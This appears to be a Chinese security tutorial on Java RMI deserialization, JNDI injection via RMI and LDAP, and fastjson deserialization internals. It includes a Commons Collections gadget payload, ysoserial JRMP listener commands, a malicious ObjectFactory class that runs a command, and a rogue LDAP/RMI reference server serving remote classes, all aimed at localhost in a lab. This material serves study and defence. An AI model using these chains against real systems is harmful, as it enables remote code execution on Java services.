# fastjson逐步分析

## 了解 RMI 反序列化

参考:

- https://www.cnblogs.com/nice0e3/p/13927460.html

- https://xz.aliyun.com/t/2223

在了解RMI前还需要弄懂一些概念 

> RMI(Remote Method Invocation，远程方法调用)是用Java在JDK1.2中实现的，它大大增强了Java开发分布式应用的能力。

Java本身对RMI规范的实现默认使用的是JRMP协议。而在Weblogic中对RMI规范的实现使用T3协议。

> JRMP：Java Remote Message Protocol ，Java 远程消息交换协议。这是运行在Java RMI之下、TCP/IP之上的线路层协议。该协议要求服务端与客户端都为Java编写，就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。

RMI可以使用以下协议实现：

Java远程方法协议（JRMP）：专门为RMI设计的协议
Internet Inter-ORB协议（IIOP）：基于CORBA实现的跨语言协议

> JNDI :Java命名和目录接口（the Java naming and directory interface，JNDI）是一组在Java应用中访问命名和目录服务的API。命名服务将名称和对象联系起来，使得读者可以用名称访问对象。目录服务是一种命名服务，在这种服务里，对象不但有名称，还有属性。

### RMI概述

> RMI（Remote Method Invocation）为远程方法调用，是允许运行在一个Java虚拟机的对象调用运行在另一个Java虚拟机上的对象的方法。 这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在网络上的不同计算机中。 

不同于socket,RMI中分为三大部分：Server、Client、Registry  

- Server: 提供远程的对象 
- Client: 调用远程的对象 
- Registry: 一个注册表，存放着远程对象的位置（ip、端口、标识符） 

### RMI基础运用

前面也说过RMI可以调用远程的一个Java的对象进行本地执行，但是远程被调用的该类必须继承`java.rmi.Remote`接口。

1. 定义一个远程的接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface rmidemo extends Remote {
    public String hello() throws RemoteException;
}
```

在定义远程接口的时候需要继承`java.rmi.Remote`接口，并且修饰符需要为`public`否则远程调用的时候会报错。并且定义的方法里面需要抛出一个`RemoteException`的异常。

2. 编写一个远程接口的实现类

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteHelloWorld extends UnicastRemoteObject implements rmidemo{
    protected RemoteHelloWorld() throws RemoteException{
        System.out.println("Constructor Method");
    }

    public String hello() throws RemoteException {
        System.out.println("hello() has been used");
        return "Hello World!";
    }
}
```

在编写该实现类中需要将该类继承`UnicastRemoteObject`。 

3. 创建服务器实例，并且创建一个注册表，将需要提供给客户端的对象注册到注册到注册表中

```java
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server0 {
    public static void main(String[] args) throws RemoteException {
        /**创建远程对象*/
        rmidemo hello = new RemoteHelloWorld();
        /**创建注册表*/
        Registry registry = LocateRegistry.createRegistry(1099);
        /**将远程对象注册到注册表内, 并且设置值为hello*/
        registry.rebind("hello", hello);
    }
}
```

4.  编写客户端并且调用远程对象 

```java
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client0 {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        /**获取远程主机对象*/
        Registry registry = LocateRegistry.getRegistry("localhost", 1099);
        /**利用注册表的代理去查询远程注册表中名为hello的对象*/
        rmidemo hello = (rmidemo) registry.lookup("hello");
        /**调用远程方法*/
        System.out.println(hello.hello());
    }
}
```

### RMI 反序列化攻击

需要使用到RMI进行反序列化攻击需要两个条件：

- 接收Object类型的参数
- RMI的服务端存在执行命令利用链

远程接口代码

```java
import java.rmi.RemoteException;
import java.rmi.server.RMIClientSocketFactory;
import java.rmi.server.RMIServerSocketFactory;
import java.rmi.server.UnicastRemoteObject;

public class UserImpl extends UnicastRemoteObject implements User {

    protected UserImpl() throws RemoteException {
    }

    protected UserImpl(int port) throws RemoteException {
        super(port);
    }

    protected UserImpl(int port, RMIClientSocketFactory csf, RMIServerSocketFactory ssf) throws RemoteException {
        super(port, csf, ssf);
    }

    public String hello(String hello) throws RemoteException {
        return "hello Method";
    }

    public void work(Object obj) throws RemoteException {
        System.out.println("work has been used");
    }

    public void say() throws RemoteException {
        System.out.println("say");
    }
}
```

server 代码

```java
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server1 {
    public static void main(String[] args) throws RemoteException {
        User user = new UserImpl();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.rebind("user", user);
        System.out.println("rmi runing...");
    }
}
```

client 代码

```java
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

import static rmi.CommonsCollectionsRMI.getPayload;

public class Client1 {
    public static void main(String[] args) throws Exception, RemoteException, NotBoundException {
//        /**获取远程主机对象*/
//        Registry registry = LocateRegistry.getRegistry("localhost", 1099);
//        /**利用注册表的代理去查询远程注册表中名为user的对象*/
//        User userClient1 = (User) registry.lookup("user");
//        /**调用远程方法*/
//        userClient1.work(getPayload());
        // 第二种方法
        String u = "rmi://localhost:1099/user";
        User userClient2 = (User) Naming.lookup(u);
        userClient2.work(getPayload());
    }
}
```

调用的payload

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsRMI {
    public static Object getPayload() throws Exception{
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);
        Map ProxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        //通过反射覆盖原本的iTransformers，防止序列化时在本地执行命令
        Field f = chainedTransformer.getClass().getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        Object cc1 = constructor.newInstance(Retention.class, ProxyMap);
        return cc1;
    }
}
```

执行客户端后就会执行我们设置好要执行的命令，也就是弹出计算器。之所以会被执行的原因是因为RMI在传输数据的时候，会被序列化，传输序列化后的数据，传输完成后再进行反序列化。那么这时候如果传输一个恶意的序列化数据就会进行反序列化的命令执行。



客户端在sun.rmi.registry.RegistryImpl_Stub#bind中进行了序列化，这个类是动态生成的，所以在源码中找不到这个类。 

```java
    public void bind(String var1, Remote var2) throws AccessException, AlreadyBoundException, RemoteException {
        try {
            RemoteCall var3 = super.ref.newCall(this, operations, 0, 4905912898345647071L);

            try {
                ObjectOutput var4 = var3.getOutputStream();
                // 序列化数据
                var4.writeObject(var1);
                var4.writeObject(var2);
            } catch (IOException var5) {
                throw new MarshalException("error marshalling arguments", var5);
            }

            super.ref.invoke(var3);
            super.ref.done(var3);
        } catch (RuntimeException var6) {
            throw var6;
        } catch (RemoteException var7) {
            throw var7;
        } catch (AlreadyBoundException var8) {
            throw var8;
        } catch (Exception var9) {
            throw new UnexpectedException("undeclared checked exception", var9);
        }
    }
```

服务端在sun.rmi.registry.RegistryImpl_Skel#dispatch 进行反序列化，同样是动态生成类。 

```java
    public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        if (var4 != 4905912898345647071L) {
            throw new SkeletonMismatchException("interface hash mismatch");
        } else {
            RegistryImpl var6 = (RegistryImpl)var1;
            String var7;
            Remote var8;
            ObjectInput var10;
            ObjectInput var11;
            switch(var3) {
            case 0:
                try {
                    var11 = var2.getInputStream();
                    // 反序列化
                    var7 = (String)var11.readObject();
                    var8 = (Remote)var11.readObject();
                } catch (IOException var94) {
                    throw new UnmarshalException("error unmarshalling arguments", var94);
                } catch (ClassNotFoundException var95) {
                    throw new UnmarshalException("error unmarshalling arguments", var95);
                } finally {
                    var2.releaseInputStream();
                }
                ...
```

整个反序列化报错回显的流程

  

JRMP同理, ysoserial准备了一系列的服务建立

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections5 'ping d85oqm.dnslog.cn'
# listen 一个 RMI server 走 JRMP 协议在 8888 port 上

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient 'localhost:8888'
# 使用 JRMPClient 去连接刚刚 listen 的 server(生成二进制文件)
```

整体流程: 反序列化JRMPClient > 访问到RMI Server接收RMI序列化数据 > 命令执行

## JNDI 注入

在Java JDK里面提供了5个包，提供给JNDI的功能实现 

javax.naming：主要用于命名操作，它包含了命名服务的类和接口，该包定义了Context接口和InitialContext类；

javax.naming.directory：主要用于目录操作，它定义了DirContext接口和InitialDir- Context类；

javax.naming.event：在命名目录服务器中请求事件通知；

javax.naming.ldap：提供LDAP支持；

javax.naming.spi：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过JNDI可以访问相关服务。

### InitialContext类

构造方法

```java
InitialContext() 
构建一个初始上下文。  
InitialContext(boolean lazy) 
构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
使用提供的环境构建初始上下文。 
```

sample

```java
InitialContext initialContext = new InitialContext();
```

在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。

常用方法

```
bind(Name name, Object obj) 
	将名称绑定到对象。 
list(String name) 
	枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
lookup(String name) 
	检索命名对象。 
rebind(String name, Object obj) 
	将名称绑定到对象，覆盖任何现有绑定。 
unbind(String name) 
	取消绑定命名对象。
```

code

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String u = "rmi://localhost:1099/user";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(u);
    }
}
```

### Reference类

该类也是在`javax.naming`的一个类，该类表示对在命名/目录系统外部找到的对象的引用。提供了JNDI中类的引用功能

构造方法

```
Reference(String className) 
	为类名为“className”的对象构造一个新的引用。  
Reference(String className, RefAddr addr) 
	为类名为“className”的对象和地址构造一个新引用。  
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
	为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。  
Reference(String className, String factory, String factoryLocation) 
	为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。
```

sample

```
String u = "http://localhost:1099/user";
Reference reference = new Reference("test", "test", u);
```

参数1：`className` - 远程加载时所使用的类名

参数2：`classFactory` - 加载的`class`中需要实例化类的名称

参数3：`classFactoryLocation` - 提供`classes`数据的地址可以是`file/ftp/http`协议

常用方法

```
void add(int posn, RefAddr addr) 
	将地址添加到索引posn的地址列表中。  
void add(RefAddr addr) 
	将地址添加到地址列表的末尾。  
void clear() 
	从此引用中删除所有地址。  
RefAddr get(int posn) 
	检索索引posn上的地址。  
RefAddr get(String addrType) 
	检索地址类型为“addrType”的第一个地址。  
Enumeration<RefAddr> getAll() 
	检索本参考文献中地址的列举。  
String getClassName() 
	检索引用引用的对象的类名。  
String getFactoryClassLocation() 
	检索此引用引用的对象的工厂位置。  
String getFactoryClassName() 
	检索此引用引用对象的工厂的类名。    
Object remove(int posn) 
	从地址列表中删除索引posn上的地址。  
int size() 
	检索此引用中的地址数。  
String toString() 
	生成此引用的字符串表示形式。  
```

code

```java
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String u = "http://localhost:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", u);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("work", referenceWrapper);
    }
}
```

`Reference`本身并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲RMI的时候提及，需要将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以还需要调用`ReferenceWrapper`进行封装

### JNDI 注入配合 RMI 实现攻击

RMIServer

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server2 {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String u = "http://localhost:8079/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", u);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj", referenceWrapper);
        System.out.println("rmi running...");
    }
}
```

RMIClient

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client2 {
    public static void main(String[] args) throws NamingException {
        String u = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(u);
    }
}
```

起一个test.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class test implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

javac手动编译(不要加package, 编译后的class会找不到主类), 再起一个python服务

```
python3 -m http.server 8888
```

效果如下


此处版本为jdk1.7.0_21。在高版本中，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false。而在低版本中这几个选项默认为true，可以远程加载一些类。 

### JNDI 注入配合 LDAP 实现攻击

> LDAP 轻型目录访问协议（英文：Lightweight Directory Access Protocol，缩写：LDAP，/ˈɛldæp/）是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。 

JNDI注入会配合LDAP是因为LDAP服务的Reference远程加载Factory类不受`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制 

启动一个ldap服务, 需要ldap依赖

```
<!--ldap-->
        <!-- https://mvnrepository.com/artifact/com.unboundid/unboundid-ldapsdk -->
        <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>4.0.9</version>
            <scope>test</scope>
        </dependency>
```

ldap服务

```java
package rmi;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class ldapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8079/#test"};
        int port = 1099;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

client客户端

```java
package rmi;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class ldapClient {
    public static void main(String[] args) throws NamingException {
        Object object = new InitialContext().lookup("ldap://localhost:1099/calc");
    }
}
```

后续步骤同上, 启动后触发ldapClient即可

参考:

- https://www.cnblogs.com/nice0e3/p/13958047.html
- https://xz.aliyun.com/t/8214
- https://xz.aliyun.com/t/6633
- https://xz.aliyun.com/t/7264

## fastjson组件的基本使用

构建Person类

```java
import lombok.Data;
import lombok.NoArgsConstructor;

@Data
@NoArgsConstructor
public class Person {
    public String name;
    public String sex;
    public int age;
}
```

构建调用类

```java
import com.alibaba.fastjson.JSON;

public class Test {
    public static void main(String[] args) {
        Person person = new Person();
        person.setName("ricky");
        person.setSex("Male");
        person.setAge(19);

        // Serialize
        String serialization = JSON.toJSONString(person);
        System.out.println(serialization);
    }
}
```

输出jsonencode后的字符串

```
{"age":19,"name":"ricky","sex":"Male"}
```

类似jackson, 也可以列表输出

```java
import com.alibaba.fastjson.JSON;

import java.util.ArrayList;
import java.util.List;

public class Test {
    public static void main(String[] args) {
        Person person = new Person();
        person.setName("ricky");
        person.setSex("Male");
        person.setAge(19);
        Person person1 = new Person();
        person1.setName("Alice");
        person1.setSex("Female");
        person1.setAge(18);
        List<Person> personList = new ArrayList<Person>();
        personList.add(person);
        personList.add(person1);

        // Serialize
        String serialization = JSON.toJSONString(personList);
        System.out.println(serialization);
    }
}
```

输出结果

```
[{"age":19,"name":"ricky","sex":"Male"},{"age":18,"name":"Alice","sex":"Female"}]
```

Fastjson的反序列化有两种, parse和parseObject, 可以把json对象反序列化为JSONObject对象

```java
import com.alibaba.fastjson.JSON;

import java.util.ArrayList;
import java.util.List;

public class Test {
    public static void main(String[] args) {
        Person person = new Person();
        person.setName("ricky");
        person.setSex("Male");
        person.setAge(19);

        // 通过parse方法进行反序列化，返回的是一个JSONObject
        String serializePerson = JSON.toJSONString(person);
        Object dePerson = JSON.parse(serializePerson);
        System.out.println(serializePerson.getClass().getName()); // java.lang.String
        System.out.println(dePerson.getClass().getName()); // com.alibaba.fastjson.JSONObject
        System.out.println(dePerson); // {"sex":"Male","name":"ricky","age":19}

        // 通过parseObject,不指定类，返回的是一个JSONObject
        Object dePerson1 = JSON.parseObject(serializePerson);
        System.out.println(dePerson1.getClass().getName()); // com.alibaba.fastjson.JSONObject
        System.out.println(dePerson1); // {"sex":"Male","name":"ricky","age":19}

        // 通过parseObject,指定类后返回的是一个相应的类对象
        Object dePerson2 = JSON.parseObject(serializePerson, Person.class);
        System.out.println(dePerson2.getClass().getName()); // learn.Person
        System.out.println(dePerson2); // Person(name=ricky, sex=Male, age=19)
    }
}
```

parseObject({..})其实就是parse({..})的一个封装，对于parse的结果进行一次结果判定然后转化为JSONOBject类型。 

```java
public static JSONObject parseObject(String text) {
        Object obj = parse(text);
        return obj instanceof JSONObject ? (JSONObject)obj : (JSONObject)toJSON(obj);
}
```

而parseObject({...},class)则是拥有自己的调用链

```java
JSON.parseObject(String text, Class<T> clazz)
public static <T> T parseObject(String text, Class<T> clazz)
public static <T> T parseObject(String json, Class<T> clazz, Feature... features)
public static <T> T parseObject(String input, Type clazz, ParserConfig config, ParseProcess processor, int featureValues, Feature... features)
public DefaultJSONParser(String input, ParserConfig config, int features) 
public DefaultJSONParser(Object input, JSONLexer lexer, ParserConfig config)
public <T> T parseObject(Type type, Object fieldName)
public ObjectDeserializer getDeserializer(Type type)
public ObjectDeserializer getDeserializer(Class<?> clazz, Type type)
# 最终调用ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
```

然后继续跟进会在`com.alibaba.fastjson.util.JavaBeanInfo#build`下获取其静态构造方法



继续跟进, 在`com.alibaba.fastjson.parser.deserializer.ASMDeserializerFactory#createJavaBeanDeserializer`下对`com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_Person`进行实例化



最后在` com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#deserialze`处完成对Person对象的实例化



后续通过其scanFieldInt和scanFieldString对其赋值, 先赋值到其它的slot变量上后放入slot_8(Person实例化对象)中, 最后赋值给`com.alibaba.fastjson.JSON#parseObject`中的value



然后就是关闭JsonScanner, 把value值返回给我们定义的`java.lang.Object dePerson2`

结论：

- parse("") 会识别并调用目标类的特定 setter 方法及某些特定条件的 getter 方法
- parseObject("") 会调用反序列化目标类的特定 setter 和 getter 方法（此处有的博客说是所有setter，个人测试返回String的setter是不行的，此处打个问号）
- parseObject("",class) 会识别并调用目标类的特定 setter 方法及某些特定条件的 getter 方法

之所以**parseObject("")**有区别就是因为**parseObject("")**比起其他方式多了一步**toJSON**操作，在这一步中会对所有getter进行调用。 

### 被屏蔽的type

那么除开正常的序列化，反序列化。
fastjson提供特殊字符段`被屏蔽的type`，这个字段可以指定反序列化任意类，并且会自动调用类中属性的特定的set，get方法。

可以得知：

- public修饰符的属性会进行反序列化赋值，private修饰符的属性不会直接进行反序列化赋值，而是会调用setxxx(xxx为属性名)的函数进行赋值。
- getxxx(xxx为属性名)的函数会根据函数返回值的不同，而选择被调用或不被调用

决定这个set/get函数是否将被调用的代码最终在`com.alibaba.fastjson.util.JavaBeanInfo#build`函数处

